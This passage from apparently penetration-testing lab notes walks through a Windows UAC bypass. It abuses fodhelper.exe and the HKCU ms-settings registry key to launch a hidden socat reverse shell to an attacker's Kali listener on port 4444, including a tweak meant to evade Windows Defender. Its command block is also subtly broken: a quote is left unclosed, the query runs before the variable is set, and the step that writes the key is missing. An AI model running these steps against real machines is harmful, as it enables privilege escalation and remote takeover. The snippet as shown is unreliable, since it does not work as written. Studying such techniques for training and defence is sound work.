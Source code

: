 **Kali**

```
nc -lvnp 4444
```

And then proceed to execute fodhelper.exe, which in turn will trigger the execution of our reverse shell:

**Victim(cmd)**

```
fodhelper.exe
```

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

## UAC: Improving the Fodhelper Exploit to Bypass Windows Defender

If you query the corresponding value on the registry, you will notice it has been erased.

Although by now it would seem our exploit wouldn't work with Windows Defender enabled, check what happens if you run the same commands but with a slight modification (be sure to replace your IP address where needed):

**Victim(cmd)**

```
reg query %REG_KEY% /v ""

set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:$KALI:4444 EXEC:cmd.exe,pipes

reg query %REG_KEY% /v ""
```

<figure><img src="../../.gitbook/assets/image (7) (7).png" alt=""><figcaption></figcaption></figure>
